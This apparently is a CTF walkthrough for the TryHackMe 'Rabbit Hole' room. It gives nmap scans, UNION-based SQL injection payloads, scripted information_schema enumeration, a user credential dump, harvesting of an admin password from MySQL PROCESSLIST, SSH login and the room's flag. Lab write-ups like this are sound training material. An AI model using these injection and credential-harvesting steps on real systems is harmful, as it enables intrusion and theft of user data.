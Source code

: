 # TryHackMe: Rabbit Hole Walkthrough — Full Exploit & Capture-the-Flag Guide

## 🔍 Challenge Overview

**Platform:** TryHackMe
**Room Name:** Rabbit Hole
**Category:** Web Exploitation, SQL Injection, Enumeration, Processlist Abuse
**Difficulty:** Intermediate


> This is a complete, step-by-step professional walkthrough to solve the "Rabbit Hole" room on TryHackMe. It includes command-line tools, Python automation scripts, payloads, and final shell access to capture the flag.

---

## 🛠 Step 1: Initial Reconnaissance

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.173.12
```

**Discovered Open Ports:**

```
22/tcp (SSH)
80/tcp (HTTP)
```

Visit:

```
http://10.10.173.12
```

Identified login/register form and "Last Logins" feature reflecting usernames (possible injection point).

---

## 🧪 Step 2: SQL Injection Detection

Test Payload:

```sql
' UNION SELECT 1;--
```

**Error Response:** Column mismatch confirms SQL injection is possible.

Working Payload:

```sql
' UNION SELECT 1,2;--
```

This confirms 2 columns are expected.

---

## 🧬 Step 3: Extract Database Names

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(schema_name) FROM information_schema.schemata'
```

**Result:**

```
information_schema,web
```

---

## 🗂 Step 4: Extract Table Names from `web`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="web"'
```

**Tables Found:**

```
users,logins
```

---

## 🧱 Step 5: Extract Columns from `users`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema="web" AND table_name="users"'
```

**Columns:**

```
id,username,password,group
```

---

## 🔐 Step 6: Dump User Data

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users WHERE id<4'
```

**Dumped:**

```
1:admin:0e3ab8...:admin
2:foo:abc123:user
3:bar:iloveyou:user
```

---

## 👁️ Step 7: Monitor `PROCESSLIST` for Admin Password

Repeatedly run:

```bash
python3 processlist_extractor.py 'http://10.10.173.12/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
```

**Target Output Example:**

```sql
SELECT * FROM users WHERE username='admin' AND password=md5('fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q')
```

Extract the cleartext password inside the `md5()` function.

---

## 💻 Step 8: SSH Login as Admin

```bash
ssh admin@10.10.173.12
```

**Password:**

```
fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q
```

---

## 🏁 Step 9: Capture the Flag

```bash
ls
cat flag.txt
```

**Flag:**

```
THM{this_is_the_way_step_inside_jNu8uJ9tvKfH1n48}
```

---

## 🧰 Tools & Techniques Used

* `nmap`, `curl`, `Burp Suite`
* Manual SQL injection testing
* `information_schema` enumeration
* MySQL `PROCESSLIST` query leakage
* Python scripting (`requests`, `bs4`)

---

## 📁 Included Scripts

### `sqli_automate2.py`

Automates 16-character chunked SQL data extraction using SUBSTR.

### `processlist_extractor.py`

Multi-threaded script to capture live SQL queries from MySQL `information_schema.processlist`.

---

## ✍️ Writeup by: Mohsin Arif

**GitHub:** [https://github.com/mhsn1](https://github.com/mhsn1)
**TryHackMe:** [https://tryhackme.com/p/mhsn1](https://tryhackme.com/p/mhsn1)

**Keywords:** tryhackme rabbit hole writeup, mysql processlist exploit, second-order sql injection, ethical hacking walkthrough, capture the flag sql injection, offensive enumeration tutorial
